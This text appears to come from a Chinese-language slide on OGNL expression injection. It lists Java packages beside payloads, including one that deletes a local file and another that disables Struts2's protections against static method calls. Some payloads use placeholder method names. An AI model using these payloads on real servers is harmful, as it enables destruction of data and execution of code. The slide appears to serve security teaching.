

注入相关的Java包
java.io
Java.io.File
%{#f=new java.io.File("C:\\Users\\hp\\Desktop\\关键字1.txt"),#f.delete()}
Java.io.FileDescriptor
%{@Java.io.FileDescriptor@a()}
sun.misc
%{#_memberAccess.allowStaticMethodAccess=true,     #context["xwork.MethodAccessor.denyMethodExecution"]=false,
@sun.misc.Unsafe@a()}
sun.misc.Unsafe
javax.persistence
%{#_memberAccess.allowStaticMethodAccess=true,
#a=new javax.persistence.EntityManager(){public void clear(){}}.clear()}
javax.persistence.EntityManager